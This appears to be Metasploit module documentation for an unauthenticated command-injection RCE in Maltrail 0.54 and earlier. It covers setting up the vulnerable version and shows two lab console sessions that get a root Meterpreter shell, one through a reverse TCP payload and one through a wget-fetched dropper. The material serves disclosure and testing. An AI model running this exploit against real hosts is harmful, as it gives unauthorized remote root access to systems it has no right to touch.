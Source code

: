 ## Vulnerable Application

Maltrail is a malicious traffic detection system, utilizing publicly
available blacklists containing malicious and/or generally suspicious trails.
The Maltrail versions <= 0.54 is suffering from a command injection vulnerability.
The `subprocess.check_output` function in `mailtrail/core/http.py` contains
a command injection vulnerability in the `params.get("username")` parameter.
An attacker can exploit this vulnerability by injecting arbitrary OS commands
into the username parameter. The injected commands will be executed with the
privileges of the running process. This vulnerability can be exploited remotely
without authentication.

This issue was discovered and reported by Chris Wild @briskets.
Check [here](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) for the original report.

## Testing
For installing the vulnerable version follow the steps below,
1. Follow the manual installation steps given [here](https://github.com/stamparm/maltrail/tree/0.53#quick-start)
2. After cloning the git project, simply do `git checkout 0.53` and proceed with the rest of the steps.

After these steps the Maltrail web interface will be exposed on the `http://<target>:8338/`.

## Verification Steps

1. msfconsole
2. Do: `use exploit/unix/http/maltrail_rce`
3. Do: `set RHOST [IP]`
4. Do: `check`

## Options

## Scenarios

```
msf6 > use exploit/unix/http/maltrail_rce 
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(unix/http/maltrail_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(unix/http/maltrail_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf6 exploit(unix/http/maltrail_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.52
[*] Executing Unix Command...
[*] Sending stage (24772 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:42250) at 2023-08-10 22:31:03 +0200

meterpreter > sysinfo 
Computer     : bab669395cfe
OS           : Linux 6.4.7-hardened1-2-hardened #1 SMP PREEMPT_DYNAMIC Wed, 02 Aug 2023 11:05:52 +0000
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid 
Server username: root
meterpreter > 
```

```
msf6 > use exploit/unix/http/maltrail_rce 
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(unix/http/maltrail_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(unix/http/maltrail_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf6 exploit(unix/http/maltrail_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.52
[*] Executing Linux Dropper...
[*] Using URL: http://172.17.0.1:8080/Y9BtoN1
[*] Client 172.17.0.2 (Wget/1.21.2) requested /Y9BtoN1
[*] Sending payload to 172.17.0.2 (Wget/1.21.2)
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 2 opened (172.17.0.1:4444 -> 172.17.0.2:48664) at 2023-08-10 22:33:27 +0200
[*] Command Stager progress - 100.00% done (110/110 bytes)
[*] Server stopped.

meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Ubuntu 22.04 (Linux 6.4.7-hardened1-2-hardened)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: root
meterpreter > 

```
